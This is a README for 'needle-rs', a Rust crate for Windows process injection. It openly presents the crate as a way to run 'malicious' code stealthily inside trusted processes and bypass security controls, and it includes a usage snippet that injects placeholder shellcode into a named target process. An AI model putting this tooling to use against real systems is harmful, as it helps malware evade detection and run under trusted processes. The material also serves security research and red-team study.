 # Rust Process Injection (Windows Only)
[Documentation](https://swiiz.github.io/needle-rs/needle/index.html) - [Apache 2.0 License](https://github.com/Swiiz/needle-rs/blob/main/LICENSE) - [Author](https://github.com/Swiiz)

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## How to use:
```TOML
# Cargo.toml
# ...
[dependencies]
needle = { git = "https://github.com/Swiiz/needle-rs.git", features = [ "windows" ] }
```
```RUST
use needle::{find_process, inject, Payload};

const SHELL_CODE: &[u8] = include_bytes!("YOUR_PAYLOAD.bin");

fn main() {
    let payload = Payload::from(SHELL_CODE);
    let process = find_process("YOUR_TARGET_PROCESS.exe").expect("Target process not found");
    if let Err(e) = inject(process, payload) {
        println!("Could not inject payload: {}", e);
    }
}
```
